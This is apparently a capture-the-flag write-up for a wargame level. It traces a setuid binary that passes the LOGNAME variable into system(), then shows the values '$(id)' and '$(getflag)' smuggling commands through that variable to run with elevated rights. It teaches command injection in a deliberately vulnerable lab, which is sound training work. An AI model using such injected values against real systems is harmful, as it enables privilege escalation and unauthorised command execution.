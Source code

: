 # Level 07

## Initial Context

- A single file: `level07`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Executing `level07` seems to only display `level07`.

```bash
$ ./level07
level07
$ ./level07 hello
level07
$ ./level07 hello world
level07
```

Using `ltrace` to trace system calls, we can learn a little bit more. It seems that it print the `LOGNAME` environment variable.

```bash
$ ltrace ./level07
...
getenv("LOGNAME") = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07") = 0
...
```

Changing the value can confirm it:

```bash
$ LOGNAME=hello ltrace ./level07
...
getenv("LOGNAME") = "hello"
asprintf(0xbffff744, 0x8048688, 0xbffff917, 0xb7e5ee55, 0xb7fed280) = 16
system("/bin/echo hello") = 0
...
```

### Exploiting

Using a sub-shell, we should be able to get the flag.

```bash
$ LOGNAME='$(id)' ./level07
uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
```

Perfect! We should be able to get the flag:

```bash
$ LOGNAME='$(getflag)' ./level07
Check flag.Here is your token : ....
```